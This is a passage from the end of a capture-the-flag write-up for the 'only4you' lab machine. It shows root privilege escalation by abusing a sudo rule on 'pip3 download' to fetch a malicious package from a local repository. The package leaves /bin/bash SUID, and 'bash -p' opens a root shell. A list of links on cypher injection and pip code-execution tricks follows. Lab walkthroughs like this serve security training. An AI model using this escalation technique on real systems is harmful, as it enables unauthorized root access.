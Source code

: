 ![repo-visibility](./images/repo-visibility.png)

Since `pip download` expects a package archive, using the link to the raw file on the repository.

```bash
(remote) john@only4you:/home/john$ sudo pip3 download http://127.0.0.1:3000/john/Test/raw/master/pipDownloadExploit-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/Test/raw/master/pipDownloadExploit-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/Test/raw/master/pipDownloadExploit-0.0.1.tar.gz (1.0 kB)
  Saved ./pipDownloadExploit-0.0.1.tar.gz
Successfully downloaded pipDownloadExploit
(remote) john@only4you:/home/john$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
(remote) john@only4you:/home/john$ bash -p
(remote) root@only4you:/home/john# cd /root/
(remote) root@only4you:/root# ls -al root.txt
-rw-r----- 1 root root 33 Jun 24 00:37 root.txt
```

Pwned!!



---

# Related Links

-   [Restrict path access to prevent path traversal — OpenStack Security Advisories 0.0.1.dev264 documentation](https://security.openstack.org/guidelines/dg_using-file-paths.html)
-   [The Cypher Injection Saga | SideChannel – Tempest](https://www.sidechannel.blog/en/the-cypher-injection-saga/)
-   [Cypher Injection (neo4j) - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j#get-labels)
-   [Fun with Cypher Injections - HackMD](https://hackmd.io/@Chivato/rkAN7Q9NY)
-   [Cypher Injection Cheat Sheet - Pentester Land](https://pentester.land/blog/cypher-injection-cheatsheet/#leak-labels--properties-in-the-database)
-   [Malicious Python Packages and Code Execution via pip download · Embrace The Red](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)
-   [Automatic Execution of Code Upon Package Download on Python Package Manager | by Yehuda Gelb | checkmarx-security | Medium](https://medium.com/checkmarx-security/automatic-execution-of-code-upon-package-download-on-python-package-manager-cd6ed9e366a8)